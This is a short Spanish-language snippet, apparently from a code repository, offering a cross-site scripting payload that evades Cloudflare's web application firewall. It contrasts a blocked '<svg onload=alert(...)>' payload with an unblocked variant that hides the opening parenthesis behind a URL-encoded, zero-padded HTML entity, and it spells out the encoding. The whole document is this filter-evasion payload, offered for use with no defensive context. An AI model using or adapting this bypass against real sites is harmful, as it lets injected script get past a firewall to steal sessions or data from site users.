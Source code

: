 # Xss payload para bypassear cloudflare usando HTML Entity.

# Bloqueado:
<svg onload=alert("")>

# No bloqueado:
<svg onload=alert%26%230000000040"")>

&# = %26%230000000040 = (

